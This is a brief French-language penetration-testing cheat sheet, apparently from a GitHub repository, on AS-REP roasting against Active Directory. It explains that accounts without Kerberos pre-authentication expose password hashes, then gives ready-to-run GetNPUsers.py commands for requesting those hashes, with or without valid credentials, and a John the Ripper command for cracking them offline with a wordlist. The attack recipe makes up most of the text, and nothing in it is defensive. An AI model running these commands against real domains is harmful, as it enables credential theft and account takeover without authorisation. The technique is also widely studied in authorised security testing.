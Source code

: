 # ASREP

Lors d’une demande de TGT, l’utilisateur doit, par défaut, s’authentifier auprès du KDC pour que celui-ci lui réponde. Il arrive que cette authentification ne soit pas toujours demandée. Si c'est le cas, n’importe qui peut demander un TGT (contenant le mot de passe sous forme de _hash_) au nom d’un de ces comptes.

### Récupération des tickets TGT

```
# Ne nécessite pas de compte mais requière de connaître tous les comptes du domaine
GetNPUsers.py <domain.local>/ -no-pass -usersfile users.txt

# Réalise une demande de TGT pour tous les comptes du domaine mais nécessite un compte 
GetNPUsers.py <domain.local>/<USER>:<PASS> -request -format john -outputfile hashs_<IP>.txt
```

### Cassage des _hashs_ obtenus

```
john --format=krb5asrep --wordlist=passwords_kerb.txt hashes.asreproast
```
